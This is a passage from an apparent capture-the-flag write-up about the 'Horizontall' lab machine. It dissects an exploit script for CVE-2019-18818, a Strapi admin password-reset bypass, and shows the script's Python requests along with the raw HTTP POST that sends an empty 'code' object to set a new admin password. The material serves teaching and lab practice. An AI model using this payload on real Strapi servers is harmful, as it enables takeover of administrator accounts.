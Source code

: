 ```

oxdf@hacky$ python3 cve-2019-18818.py 
Usage: cve-2019-18818.py <admin_email> <url> <new_password>

```

As I discovered above, putting anything into that field seemed to work. Looking most closely at the script, it makes three requests. The first is `/admin/strapiVersion` to see if it’s a vulnerable version.

The second is to `/admin/plugins/user-permissions/auth/reset-password`:

```

#Request password reset
print("[*] Sending password reset request...")
reset_request={"email":email, "url":"{}/admin/plugins/users-permissions/auth/reset-password".format(url)}
s.post("{}/".format(url), json=reset_request)

```

This is where the email is used. I noted above that just putting random junk in there works.

The third request is to `/admin/auth/reset-password`, and the key thing is to note that the `code` parameter is an empty dictionary:

```

#Reset password to
print("[*] Setting new password...")
exploit={"code":{}, "password":new_password, "passwordConfirmation":new_password}
r=s.post("{}/admin/auth/reset-password".format(url), json=exploit

```

I’ll add a this line to the top of the exploit to send all the requests through Burp:

```

s.proxies.update({"http": "http://127.0.0.1:8080"})

```

The third request looks like:

```

POST /admin/auth/reset-password HTTP/1.1
Host: api-prod.horizontall.htb
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 68
Content-Type: application/json

{"code": {}, "password": "aaaaaa", "passwordConfirmation": "aaaaaa"}

```
